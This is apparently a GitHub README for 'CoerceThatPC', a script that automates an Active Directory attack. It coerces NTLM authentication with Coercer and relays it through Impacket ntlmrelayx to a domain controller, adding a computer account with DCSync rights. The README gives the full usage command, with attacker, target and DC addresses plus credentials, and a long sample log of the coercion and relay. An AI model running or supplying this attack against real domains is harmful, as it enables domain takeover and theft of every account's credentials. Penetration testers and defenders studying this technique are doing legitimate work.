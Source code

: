 # CoerceThatPC
Script to automate the exploitation of a computer object being a member of an Administrators group within Active Directory.

This script automates the process of using known credentials to coerce NTLM authentication using named pipes via the Coercer package to an attackers PC where the Impacket ntlmrelayx package relays that authentication request to the Domain Controller to add a computer account and grant it DCSync privileges. This can be used any time a computer account exists in an administrator group which I have seen in multiple different corporate domains. 

Usage: 
```
python coercethatpc.py --target-ip TARGET_IP --attacker-ip ATTACKER_IP --dc-ip DC_IP --username USERNAME --password PASSWORD
```

Example: 
```
CoerceThatPC
By: Hann1bl3L3ct3r
Script to automate the exploitation of a computer object being a member of an Administrators group within Active Directory.

[+] Starting NTLM Relay Attack 

[+] Waiting for 10 seconds to ensure ntlmrelayx is fully set up 

Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[+] Impacket Library Installation Path: /home/kali/.local/lib/python3.11/site-packages/impacket
[*] Protocol Client IMAPS loaded..
[*] Protocol Client IMAP loaded..
[*] Protocol Client HTTP loaded..
[*] Protocol Client HTTPS loaded..
[*] Protocol Client SMTP loaded..
[*] Protocol Client MSSQL loaded..
[*] Protocol Client SMB loaded..
[*] Protocol Client DCSYNC loaded..
[*] Protocol Client LDAPS loaded..
[*] Protocol Client LDAP loaded..
[*] Protocol Client RPC loaded..
[+] Protocol Attack LDAP loaded..
[+] Protocol Attack LDAPS loaded..
[+] Protocol Attack IMAP loaded..
[+] Protocol Attack IMAPS loaded..
[+] Protocol Attack SMB loaded..
[+] Protocol Attack RPC loaded..
[+] Protocol Attack DCSYNC loaded..
[+] Protocol Attack MSSQL loaded..
[+] Protocol Attack HTTP loaded..
[+] Protocol Attack HTTPS loaded..
[*] Running in relay mode to single host
[*] Setting up SMB Server
[*] Setting up HTTP Server on port 80
[*] Setting up WCF Server
[*] Setting up RAW Server on port 6666

[*] Servers started, waiting for connections
[+] Starting coersion attack on machine 

       ______
      / ____/___  ___  _____________  _____
     / /   / __ \/ _ \/ ___/ ___/ _ \/ ___/
    / /___/ /_/ /  __/ /  / /__/  __/ /      v2.4.3
    \____/\____/\___/_/   \___/\___/_/       by @podalirius_

[info] Starting coerce mode
[info] Scanning target 192.168.1.5
[*] DCERPC portmapper discovered ports: 49664,49665,49666,49697,49668,49670,49672,49680,49719,49690
[+] DCERPC port '49680' is accessible!
   [+] Successful bind to interface (12345678-1234-ABCD-EF00-0123456789AB, 1.0)!
      [!] (NO_AUTH_RECEIVED) MS-RPRN──>RpcRemoteFindFirstPrinterChangeNotification(pszLocalMachine='\\192.168.1.10\x00') 
      [>] (-testing-) MS-RPRN──>RpcRemoteFindFirstPrinterChangeNotificationEx(pszLocalMachine='\\192.168.1.10\x00') 
[*] SMBD-Thread-5 (process_request_thread): Received connection from 192.168.1.5, attacking target ldap://192.168.1.25
```

Shoutout to p0dalirius for Coercer https://github.com/p0dalirius/Coercer
Shoutout to fortra for Impacket https://github.com/fortra/impacket
